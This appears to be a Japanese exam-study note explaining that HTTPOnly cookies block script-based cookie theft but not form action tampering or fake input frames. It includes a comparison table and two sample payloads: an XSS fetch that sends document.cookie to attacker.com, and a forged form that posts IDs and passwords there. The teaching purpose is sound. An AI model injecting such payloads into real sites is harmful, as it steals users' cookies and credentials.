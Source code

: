 * **form action攻撃**
  改ざんされた `form` タグの `action` 属性により、ユーザが入力した情報を攻撃者サーバへ送信させる手口。

---

## １－２　技術の必要性（解決する具体的課題）

* HTTPOnly属性は「スクリプト経由でCookieを盗まれる脅威」を防ぐ。
* しかし `form action` 改ざんは「ユーザ入力値の窃取」であり、Cookieを盗む仕組みではない。

---

## １－３　試験の着眼点（頻出領域／ひっかけ）

* 出題者は「HTTPOnlyを設定してもXSSを完全に防げない」という点を狙ってくる。
* HTTPOnlyはCookie保護に限定 → 入力値窃取やフィッシングには無効。

---

## １－４　体系マップ（比較表）

| 攻撃手法              | HTTPOnlyで防げるか | 説明                      |
| ----------------- | ------------- | ----------------------- |
| scriptによるCookie窃取 | ○ 防げる         | `document.cookie` が空になる |
| iframeでの偽入力窓      | × 防げない        | ユーザが自分で入力した情報を送る        |
| form action改ざん    | × 防げない        | ユーザ入力を攻撃者へ送る攻撃          |

---

## １－５　代表例

* **HTTPOnlyで防げる例**

```html
<script>fetch('http://attacker.com?c='+document.cookie);</script>
```

→ HTTPOnly付きCookieは送られないので窃取失敗。

* **HTTPOnlyで防げない例**

```html
<form action="http://attacker.com/steal">
  ユーザID:<input name="id">
  パスワード:<input type="password" name="pw">
</form>
```

→ ユーザが自ら入力したID/パスワードはHTTPOnlyとは関係なく送信される。

---

## １－６　よくある誤解と対処
